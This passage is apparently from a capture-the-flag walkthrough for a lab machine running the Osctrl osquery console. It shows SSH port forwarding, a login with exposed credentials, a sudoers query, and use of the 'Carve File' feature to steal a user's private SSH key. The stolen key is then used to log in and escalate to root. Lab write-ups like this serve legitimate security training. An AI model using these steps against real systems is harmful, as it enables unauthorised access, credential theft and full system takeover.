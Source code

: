 ```bash
|          |          |        |                                      |                | AppleWebKit/537.36 (KHTML,     |
|          |          |        |                                      |                | like Gecko) Chrome/114.0.0.0   |
|          |          |        |                                      |                | Safari/537.36                  |
| toto     |          | True   | 06db90ca-cdf6-4735-928c-17654a398aa3 |                |                                |
+----------+----------+--------+--------------------------------------+----------------+--------------------------------+
```
Now forward like this :

```bash
ssh -L 9001:127.0.0.1:9001 -L 9002:127.0.0.1:9002 -L 9000:127.0.0.1:9000 provision@10.10.168.230
```
And login with ```toto;toto``` on 127.0.0.1:9001

## Play with Osctrl

After a few tests of functionalities on the site, we quickly understand what we can do, such as playing with the queries to obtain information or even obtaining files with the ```carve file``` option.

Example of interesting query : 

```sql
SELECT * FROM sudoers;

    {
      "source": "/etc/sudoers.d/os-control-vl",
      "header": "kara",
      "rule_details": "ALL=(ALL) NOPASSWD: ALL"
    }
```
So we can try to retrieve the kara ssh key and we will be able to be root 

Using the functionnality ```Carve File```, we can retrieve ```/home/kara/.ssh/id_ed25519``` and login with it :

```bash
nano id_ed25519

chmod 600 id_ed25519

ssh -L 9001:127.0.0.1:9001 -L 9002:127.0.0.1:9002 -L 9000:127.0.0.1:9000 -i id_ed25519 kara@10.10.168.230
```
```bash
kara@os:~$ sudo su

root@os:/home/kara# id
uid=0(root) gid=0(root) groups=0(root)
```
## Digging deeper in Osctrl
